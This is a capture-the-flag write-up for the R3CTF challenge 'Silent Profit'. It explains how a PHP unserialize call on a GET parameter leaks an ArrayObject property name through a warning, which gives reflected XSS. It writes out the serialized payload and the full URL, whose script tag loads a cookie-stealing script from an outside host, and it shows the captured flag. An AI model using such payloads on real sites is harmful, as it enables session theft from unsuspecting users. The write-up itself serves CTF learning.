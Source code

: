 # Silent Profit (solved by: @MrSpavn)

## Category: Misc • Points: 200

## Description:
### *🔇*
---
## Server analysis

### Server code
```PHP
<?php 
show_source(__FILE__);
unserialize($_GET['data']);
```

we can see the deserialization function and GET["data"] , we need to find a way to make PHP output html code and embed XSS there that will steal the cookie, after which the bot goes to the site using our link

## Attack

After trying out lot possible options, i detected when im trying put to ArrayObject element as ->name istead of ["name"] php throws Warning with full variable name, so i make little code to serialize data:
```PHP
$data = new ArrayObject();
$data->vname = "1";
$serialized = serialize($data);
$serialized2 = urlencode($serialized);
echo $serialized;
echo "</br>";
echo $serialized2;
```
after running that code we get 
```
O:11:"ArrayObject":4:{i:0;i:0;i:1;a:0:{}i:2;a:1:{s:5:"vname";s:1:"1";}i:3;N;}
```
and php throw long warning that using vname is deprecated and bla bla bla

So next i just changed 
```
vname
```
to 
```
<script src="https://redactedre.da/ctf/cockie-steal/cookie.js"></script>
```
and got
```
O:11:"ArrayObject":4:{i:0;i:0;i:1;a:0:{}i:2;a:1:{s:72:"<script src="https://redactedre.da/ctf/cockie-steal/cookie.js"></script>";s:1:"1";}i:3;N;}
```

then we can just send it to XSS bot 
```
http://localhost/?data=O:11:"ArrayObject":4:{i:0;i:0;i:1;a:0:{}i:2;a:1:{s:72:"<script src="https://redactedre.da/ctf/cockie-steal/cookie.js"></script>";s:1:"1";}i:3;N;}
```
And now my php log file contains bot cookies

## Results

Cookie => flag=R3CTF{WonT_flX_dEF1niT31y_N0t_4_SeCUr1Ty-I5su3_689}
